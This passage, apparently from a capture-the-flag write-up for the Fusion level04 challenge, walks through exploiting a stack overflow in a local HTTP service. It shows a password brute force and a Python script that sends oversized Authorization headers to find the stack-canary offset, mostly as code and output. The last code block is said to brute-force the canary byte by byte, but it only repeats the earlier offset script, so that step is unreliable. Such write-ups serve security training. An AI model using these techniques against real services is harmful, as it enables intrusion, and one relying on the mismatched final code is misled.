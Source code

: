 And the application kindly let us know that the canary was wrong:

```lang-python line-numbers 
fusion@fusion:~$ python fusion04.py
Eureka B0fNGXynX8io6GNO
HTTP/1.0 200 Ok

*** stack smashing detected ***: /opt/fusion/bin/level04 terminated
```

So we can brute force the canary but first we need to find the canary and EIP offsets:

```lang-python line-numbers 
canary_offset = 2500
while True:
        credentials = base64.b64encode("stack6:{0}".format(passwd))
        s = socket(AF_INET, SOCK_STREAM)
        s.connect(("localhost", 20004))
        request = "GET / HTTP/1.0\r\n"
        request += "Authorization: Basic {0}\r\n".format(credentials + "A"*canary_offset )
        request += "\n"
        s.send(request)
        response = s.recv(1024)
        s.close()
        if "smashing" in response:
                print("[+] Server response " + response)
                print("[+] Canary offset: " + str(canary_offset))
                break
        canary_offset += 1
```

We find that the canary offset is 2704:

```lang-bash line-numbers 
fusion@fusion:~$ python fusion04.py
[+] Brute forcing password ...
[+] Eureka B0fNGXynX8io6GNO
[+] Searching Canary offset ...
[+] Server response *** stack smashing detected ***: /opt/fusion/bin/level04 terminated
[+] Canary offset: 2704
```

Ok, now we will overwrite the canary one byte at a time until we dont get the "stack smashing detected" message:

```lang-python line-numbers 
canary_offset = 2500
while True:
        credentials = base64.b64encode("stack6:{0}".format(passwd))
        s = socket(AF_INET, SOCK_STREAM)
        s.connect(("localhost", 20004))
        request = "GET / HTTP/1.0\r\n"
        request += "Authorization: Basic {0}\r\n".format(credentials + "A"*canary_offset )
        request += "\n"
        s.send(request)
        response = s.recv(1024)
        s.close()
        if "smashing" in response:
                print("[+] Server response " + response)
                print("[+] Canary offset: " + str(canary_offset))
                break
        canary_offset += 1
```
